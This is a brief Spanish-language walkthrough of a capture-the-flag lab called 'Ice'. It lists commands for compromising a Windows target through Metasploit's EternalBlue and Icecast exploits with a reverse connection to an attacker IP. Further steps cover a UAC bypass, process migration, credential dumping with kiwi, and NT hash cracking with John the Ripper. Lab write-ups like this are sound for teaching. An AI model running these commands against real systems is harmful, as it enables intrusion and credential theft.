




# Ice

## Resolucion explotanto blue eternal

`nmap -T5 -script vuln 10.10.201.135`

`windows/smb/ms17_010_eternalblue`
`set RHOSTS 10.10.201.135`
`set LHOST 10.8.63.150`
**NT AUTHORITY\SYSTEM**

## Escalada

Vemos el usuario Dark

`john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
**Password01!**

Flags
`dir /s /b *flag*`
/s : recorrer recursivamente
/b : print minimalista, solo directorio
No encontramos nada

## Resolucion explotanto icecast

metasploit -> `exploit(windows/http/icecast_header)`
`set RHOSTS 10.10.8.134`
`set LHOST 10.8.63.150`
**Dark-PC\Dark**

## Escalada

`meterpreter > use post/multi/recon/local_exploit_suggester`
Vemos los exploits sugeridos
`background`
`exploit(windows/local/bypassuac_enentvwr)`
`set SESSIONS 1`
**Dark-PC\Dark**

`getprivs`
`ps`
`migrate -N spoolsv.exe`

`getuid`
**NT AUTHORITY\SYSTEM**

`load kiwi`
`creds_all`

